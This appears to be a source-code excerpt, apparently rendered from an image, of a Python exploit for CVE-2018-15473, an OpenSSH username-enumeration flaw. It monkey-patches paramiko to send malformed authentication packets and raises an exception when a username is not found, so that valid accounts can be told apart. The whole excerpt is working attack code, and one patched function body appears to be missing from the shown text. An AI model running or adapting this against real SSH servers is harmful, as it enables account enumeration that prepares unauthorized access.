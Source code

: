 
    class InvalidUsername(Exception):
        """ Raise when username not found via CVE-2018-15473. """


    def apply_monkey_patch() -> None:
        """ Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.
            patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict
                _parse_service_accept
                _parse_userauth_failure
            _handler_table = {
                MSG_SERVICE_REQUEST: _parse_service_request,
                MSG_SERVICE_ACCEPT: _parse_service_accept,
                MSG_USERAUTH_REQUEST: _parse_userauth_request,
                MSG_USERAUTH_SUCCESS: _parse_userauth_success,
                MSG_USERAUTH_FAILURE: _parse_userauth_failure,
                MSG_USERAUTH_BANNER: _parse_userauth_banner,
                MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,
                MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,
            }
        """

        def patched_add_boolean(*args, **kwargs):
            """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """

        auth_handler = paramiko.auth_handler.AuthHandler
        old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

        def patched_msg_service_accept(*args, **kwargs):
            """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
            old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
            retval = old_msg_service_accept(*args, **kwargs)
            paramiko.message.Message.add_boolean = old_add_boolean
            return retval

        def patched_userauth_failure(*args, **kwargs):
            """ Called during authentication when a username is not found. """
            raise InvalidUsername(*args, **kwargs)

        auth_handler._client_handler_table.update({
            paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
            paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
        })


    def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:
        """ Small helper to stay DRY.
        Returns:
            socket.socket or None
        """
        # spoiler alert, I don't care about the -6 flag, it's really
        # just to advertise in the help that the program can handle ipv6
        try:
            return socket.create_connection((hostname, port))
        except socket.error as e:
            print(f'socket error: {e}', file=sys.stdout)
